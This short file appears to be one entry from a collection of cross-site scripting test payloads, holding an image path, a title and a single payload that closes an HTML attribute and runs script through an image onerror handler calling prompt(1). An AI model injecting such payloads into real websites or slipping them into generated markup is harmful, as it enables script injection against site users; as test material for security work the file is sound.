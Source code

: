----img-src-x-onerror-prompt-1---
=================================

 ">&lt;img src=x onerror=prompt(1);>
